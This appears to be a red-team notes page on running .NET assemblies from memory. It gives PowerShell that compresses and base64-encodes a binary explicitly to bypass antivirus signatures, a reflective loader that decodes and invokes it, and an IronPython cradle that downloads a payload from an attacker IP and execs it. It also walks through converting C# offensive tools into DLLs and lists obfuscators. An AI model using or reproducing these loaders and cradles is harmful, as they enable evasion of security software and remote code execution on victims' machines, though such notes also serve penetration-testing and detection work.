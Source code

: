 # .NET Reflective Assembly

- [https://blog.king-sabri.net/red-team/executing-c-assembly-in-memory-using-assembly.load](https://blog.king-sabri.net/red-team/executing-c-assembly-in-memory-using-assembly.load)
- [https://pscustomobject.github.io/powershell/howto/PowerShell-Add-Assembly/](https://pscustomobject.github.io/powershell/howto/PowerShell-Add-Assembly/)
- [https://github.com/S3cur3Th1sSh1t/PowerSharpPack#powersharppack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack#powersharppack)
- [https://github.com/GhostPack/Rubeus#sidenote-running-rubeus-through-powershell](https://github.com/GhostPack/Rubeus#sidenote-running-rubeus-through-powershell)
- [https://github.com/cfalta/PowerShellArmoury/blob/master/ConvertTo-Powershell.ps1](https://github.com/cfalta/PowerShellArmoury/blob/master/ConvertTo-Powershell.ps1)
- [https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/convert_c%23_to_ps1.ps1](https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/convert_c%23_to_ps1.ps1)
- [https://icyguider.github.io/2022/01/03/Convert-CSharp-Tools-To-PowerShell.html](https://icyguider.github.io/2022/01/03/Convert-CSharp-Tools-To-PowerShell.html)
- [https://cyberstoph.org/posts/2020/09/convertto-powershell-wrapping-applications-with-ps/](https://cyberstoph.org/posts/2020/09/convertto-powershell-wrapping-applications-with-ps/)

A way to bypass AV signature analysis: you can gzip-compress and base64-encode a .NET assembly to load it reflectively via PowerShell right from memory (when compiling the binary, make `Program` class and its `Main` method **public**):

{% code title="CompressEncodeAssembly.ps1" %}
```powershell
$bytes = [System.IO.File]::ReadAllBytes("$(pwd)\binary.exe")
[System.IO.MemoryStream] $outStream = New-Object System.IO.MemoryStream
$gzipStream = New-Object System.IO.Compression.GzipStream($outStream, [System.IO.Compression.CompressionMode]::Compress)
$gzipStream.Write($bytes, 0, $bytes.Length)
$gzipStream.Close()
$outStream.Close()
[byte[]] $outBytes = $outStream.ToArray()
$b64Zipped = [System.Convert]::ToBase64String($outBytes)
$b64Zipped | Out-File -NoNewLine -Encoding ASCII .\b64.txt
notepad.exe .\b64.txt
```
{% endcode %}

This [blog post](https://www.praetorian.com/blog/running-a-net-assembly-in-memory-with-meterpreter) covers the topic in depth.

An example how the binary can be actually decoded, decompressed and run from memory:

{% code title="Invoke-S0m3B1n4ry.ps1" %}
```powershell
function Invoke-S0m3B1n4ry
{
	#[CmdletBinding()]
	#Param([String]$Command = " ")

	$a = New-Object System.IO.MemoryStream(, [System.Convert]::FromBase64String("..."))
	$b = New-Object System.IO.Compression.GZipStream($a, [System.IO.Compression.CompressionMode]::Decompress)
	$c = New-Object System.IO.MemoryStream;
	$b.CopyTo($c)
	[byte[]]$d = $c.ToArray()
	$e = [System.Reflection.Assembly]::Load($d)
	$f = [System.Console]::Out
	$g = New-Object System.IO.StringWriter
	[System.Console]::SetOut($g)

	$h = [Reflection.BindingFlags]"Public,NonPublic,Static"
	$i = $e.GetType("S0m3B1n4ry.Program", $h)
	$j = $i.GetMethod("Main", $h)
	$j.Invoke($null, (, [string[]]$args))
	#$i = [S0m3B1n4ry.Program]::Main($Command.Split())

	[System.Console]::SetOut($f)
	$k = $g.ToString()
	$k
}
```
{% endcode %}




## IronPython Loader

- [https://www.huntress.com/blog/snakes-on-a-domain-an-analysis-of-a-python-malware-loader](https://www.huntress.com/blog/snakes-on-a-domain-an-analysis-of-a-python-malware-loader)
- [https://github.com/IronLanguages/ironpython3/releases](https://github.com/IronLanguages/ironpython3/releases)
- [https://pythonnet.github.io/](https://pythonnet.github.io/)
- [https://github.com/BC-SECURITY/Empire/blob/master/empire/server/stagers/CSharpPy.yaml](https://github.com/BC-SECURITY/Empire/blob/master/empire/server/stagers/CSharpPy.yaml)

Cradle:

```python
>>> import urllib.request
>>> request = urllib.request.Request('http://10.10.13.37/payload.py')
>>> result = urllib.request.urlopen(request)
>>> payload = result.read()
>>> exec(payload)
```

Payload:

{% code title="loader.py" %}
```python
import clr
import zlib
import base64

clr.AddReference('System')
from System import *
from System.Reflection import *

b64 = base64.b64encode(zlib.decompress(base64.b64decode(b'<LOADER_BYTES_B64>'))).decode()
raw = Convert.FromBase64String(b64)

assembly = Assembly.Load(raw)
type = assembly.GetType('Loader.Program')
type.GetMethod('Main').Invoke(Activator.CreateInstance(type), None)
```
{% endcode %}




## C\# to Unmanaged DLL

* [https://blog.xpnsec.com/rundll32-your-dotnet/](https://blog.xpnsec.com/rundll32-your-dotnet/)

Creating assembly with DLL exports from C# code:

1. Select your favorite C# offensive tool.
2. Install [DllExport](https://www.nuget.org/packages/DllExport/) package via "Manage NuGet Packages for Solution" in VS.
3. Configure DllExport like on the screenshot below and click "Apply".
4. Agree to reload the solution.
5. Edit the Main function code to work with no arguments passed so that the signature looks like `static void Main()`.
6. Add `[DllExport]` attribute before the Main function.
7. Check "Allow unsafe code" and "Optimize code" boxes in Build tab of the solution.
8. Build the solution as Release x64 DLL assembly.
9. (Optional) Obfuscate the assembly with something like [Confuser](https://github.com/XenocodeRCE/neo-ConfuserEx).

![DllExport Configuration](/.gitbook/assets/010.png)

The resulting DLL will be placed in `.\bin\x64\Release\x64\` directory.

{% hint style="warning" %}
Author's note: *I’m not sure why it requires so much finessing, but I’m open to any optimizations or explanations if anyone knows. Specifically, only the DLL in the `\x64\` directory will work, for some reason the one that’s under `\Release\` does not contain the entrypoint that should be generated by `[DllExport]`, even though it’s built at the same time as the one in `\x64\`.*
{% endhint %}




## .NET Obfuscators

- [https://github.com/yck1509/ConfuserEx](https://github.com/yck1509/ConfuserEx)
- [https://github.com/XenocodeRCE/neo-ConfuserEx](https://github.com/XenocodeRCE/neo-ConfuserEx)
- [https://github.com/dr4k0nia/XorStringsNET](https://github.com/dr4k0nia/XorStringsNET)
- [https://github.com/0xb11a1/yetAnotherObfuscator](https://github.com/0xb11a1/yetAnotherObfuscator)
- [https://github.com/h4wkst3r/InvisibilityCloak](https://github.com/h4wkst3r/InvisibilityCloak)
